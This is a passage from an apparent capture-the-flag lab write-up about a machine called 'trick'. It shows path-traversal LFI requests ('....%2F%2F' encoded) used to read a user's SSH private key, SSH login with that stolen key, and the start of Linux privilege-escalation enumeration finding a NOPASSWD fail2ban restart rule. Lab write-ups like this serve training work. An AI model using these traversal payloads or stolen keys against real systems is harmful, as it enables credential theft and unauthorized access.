 ```

```




## System Access via ssh and  PE via third party application. 
One of the output from the bash scripting was michael's id_rsa. 
```
0408  4 -rw-r--r-- 1 kali kali  1823 Oct 30 19:45 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2F.ssh%2Fid_rsa'
4860433  4 -rw-r--r-- 1 kali kali  1823 Oct 30 19:48 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2F.ssh%2Fid_rsa.1'
4860406  4 -rw-r--r-- 1 kali kali   395 Oct 30 19:45 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2F.ssh%2Fid_rsa.pub'
4860431  4 -rw-r--r-- 1 kali kali   395 Oct 30 19:48 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2F.ssh%2Fid_rsa.pub.1'
4860392  0 -rw-r--r-- 1 kali kali     0 Oct 30 19:45 'index.php?page=....%2F%2F....%2F%2F....%2F%2F....%2F%2Fhome%2Fmichael%2Fstable%2Fapache%2Fphp.ini'

```

The tester was able to gain system access as non-root user after the file permission was 
changed to 600. 

```
└─$ ssh michael@10.10.11.166 -i id_rsa
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
michael@10.10.11.166's password: 

└─$ chmod 600 ./id_rsa                                                                 


```


Once logged in, I followed the usual Linux PE from my previous note. 
https://app.gitbook.com/s/-MdC6F2qPks25QX5I3wr/oscp_prep/3.-linux-pe
So generally, I start with the user, group, privileges, etc. Then, I check for services, weak file permission, sudo, cronjobs, suid/sgid, other files,  kernel versions, then network connections.  In this case, sudo -l revealed that the user michael has authority to restart fail2ban service. 


```
michael@trick:~$ sudo -lgroup

    (root) NOPASSWD: /etc/init.d/fail2ban restart



michael@trick:~$ groups
michael security

```
